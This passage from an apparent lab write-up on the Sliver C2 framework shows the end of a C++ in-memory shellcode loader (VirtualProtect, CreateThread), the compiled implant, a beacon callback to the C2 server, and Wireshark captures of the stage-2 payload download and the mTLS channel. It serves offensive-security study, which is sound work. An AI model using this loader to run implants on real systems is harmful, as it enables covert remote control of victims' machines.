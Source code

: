 ```cpp
	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// If VirtualProtect worked, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

We can compile this and also see the smaller binary size.
```shell
C:\Users\sreisz\Desktop\the-lab\sliver-test\staged>dir
 Volume in drive C has no label.
 Volume Serial Number is B6DD-3AE4

 Directory of C:\Users\sreisz\Desktop\the-lab\sliver-test\staged

09/26/2022  07:28 PM    <DIR>          .
09/26/2022  07:28 PM    <DIR>          ..
02/26/2020  10:04 PM               123 compile.bat
09/26/2022  07:32 PM             5,956 implant.cpp
09/26/2022  07:32 PM           129,024 implant.exe
09/26/2022  07:32 PM             4,188 implant.obj
				5 File(s)        140,228 bytes
				2 Dir(s)  34,745,667,584 bytes free 
```

Running the implant, we get a callback at our C2.
```shell
[*] Beacon 800878fa VOICELESS_SKULL - 10.10.69.19:49918 (DESKTOP-1AGTDPB) - windows/amd64 - Wed, 28 Sep 2022 00:16:36 EDT
```

We can see exactly what this looked like on the network using Wireshark. One of the first packets we should see is an HTTP request to some random looking URL, but probably has a `.woff` extension in it.
![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927231922.png)

The binary data inside this request is actually the stage 2 payload right there in plain sight! Since our request was done using HTTP instead of HTTPS, anyone eavesdropping or logging this could also probably see this request happening. However, they won't be able to tell what communication is happening. After scrolling past a lot of repeated ACK packets, we see some TLS packets.

![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927232358.png)

As we have set up an MTLS listener, where both the client and server must verify each others' certificates, we have a cryptographic exchange where we do all of this verification, and if successful, all sequential packets will be encrypted and unreadable for anyone without the keys.
